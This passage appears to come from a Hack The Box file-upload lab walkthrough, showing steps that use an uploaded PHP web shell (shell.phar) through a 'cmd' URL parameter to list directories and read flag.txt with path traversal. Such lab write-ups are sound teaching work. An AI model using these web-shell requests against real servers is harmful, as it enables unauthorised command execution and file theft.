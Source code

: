 ![image-center](\assets\images\HTB_File_Upload_Attacks\Q6\15.png)

<div style="text-align: justify">16. Execute the "ls" command as a URL parameter. The file "flag.txt" is discovered.</div>
```
http://IP:PORT/profile_images/shell.phar?cmd=ls ../../../../
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q6\16.png)

<div style="text-align: justify">17. Read the content of "flag.txt" with the "cat" command as the URL parameter.</div>
```
http://IP:PORT/profile_images/shell.phar?cmd=cat ../../../../flag.txt
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q6\17.png)